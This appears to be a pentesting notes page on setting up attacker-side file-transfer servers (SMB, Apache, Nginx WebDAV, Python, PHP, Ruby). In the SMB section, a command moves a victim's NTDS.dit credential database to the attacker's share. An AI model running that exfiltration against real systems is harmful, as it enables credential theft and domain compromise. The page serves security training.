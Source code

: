 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```


# Setting up a server (in the attacking machine)

## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## Nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep `80`
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nging server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```

